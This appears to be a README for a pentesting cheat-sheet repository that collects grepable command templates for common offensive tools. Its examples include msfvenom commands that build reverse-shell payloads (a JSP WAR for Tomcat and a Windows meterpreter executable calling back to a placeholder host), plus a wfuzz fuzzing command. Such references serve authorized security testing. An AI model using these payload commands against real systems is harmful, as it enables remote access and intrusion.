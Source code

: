 # Pentesting CLI Call Collection # 

A single grepable file, that contains lots of prototype like CLI calls, of the most common pentesting tools.
Spend less time with man pages ;)

## Example
You can grep the call collection via the `qccc` script. For example:
```bash
qccc msfvenom
# Found 6 results:
# msfvenom generate java tcp reverse shell with file format war for tomcat deployment
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war
# msfvenom generate meterpreter with file format exe for windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe
# msfvenom list available payloads
msfvenom -l payloads
```

Or grep the call collection manually:
```bash
grep -i wfuzz cli-call-collection.txt          
# wfuzz fuzz a get parameter with; -f out file; --hw hide response with word count; --hh hide response with character count; --hc <code> hide response code <code>
wfuzz --hw <word-count> -f <out-file> -w <wordlist> 'https://target.url?param1=FUZZ&param2=42'
```
